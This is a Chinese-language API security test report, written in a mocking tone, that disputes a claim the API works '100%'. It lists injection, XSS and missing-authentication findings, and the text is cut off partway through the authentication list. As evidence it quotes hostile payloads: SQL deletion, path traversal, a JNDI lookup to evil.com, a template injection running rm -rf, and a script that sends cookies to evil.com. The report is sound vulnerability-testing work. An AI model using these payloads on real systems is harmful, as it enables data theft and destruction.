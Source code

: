 # 🥊 后端工程师专用打脸报告

**目标**: 验证"100%好用"的API接口声明  
**测试时间**: 2025-05-30 23:00-23:05  
**测试者**: 老爹专业打脸团队  
**结论**: ❌ **"100%好用"声明不实，发现16个严重问题**

---

## 📊 问题概览

- **总问题数**: 16个
- **严重安全漏洞**: 13个 🚨
- **性能问题**: 1个 ⚡
- **响应格式问题**: 1个 📝
- **业务逻辑问题**: 1个 🎯

**严重程度评级**: 🔴 **高危** - 存在多个严重安全漏洞

---

## 🚨 严重安全漏洞 (13个)

### 1. XSS漏洞
- **端点**: `/api/characters/`
- **问题**: 输入未进行HTML转义，直接返回包含脚本标签的内容
- **证据**: 
  ```json
  {
    "name": "<script>alert('XSS')</script>",
    "display_name": "test"
  }
  ```
- **影响**: 可执行恶意脚本，窃取用户数据

### 2. 特殊字符注入漏洞 (6个)
接受以下危险输入而无任何过滤：

- **SQL注入尝试**: `'; DELETE FROM users; --`
- **路径遍历**: `../../../etc/passwd`
- **JNDI注入**: `${jndi:ldap://evil.com/a}`
- **模板注入**: `<%- system('rm -rf /') %>`
- **表达式注入**: `{{7*7}}`
- **高级XSS**: `<script>fetch('http://evil.com/steal?data='+document.cookie)</script>`

**影响**: 可能导致数据泄露、服务器文件访问、远程代码执行

### 3. 认证绕过漏洞 (6个)
以下端点完全无认证保护：

- `/api/engines/` - 引擎管理
- `/api/system/settings` - 系统设置

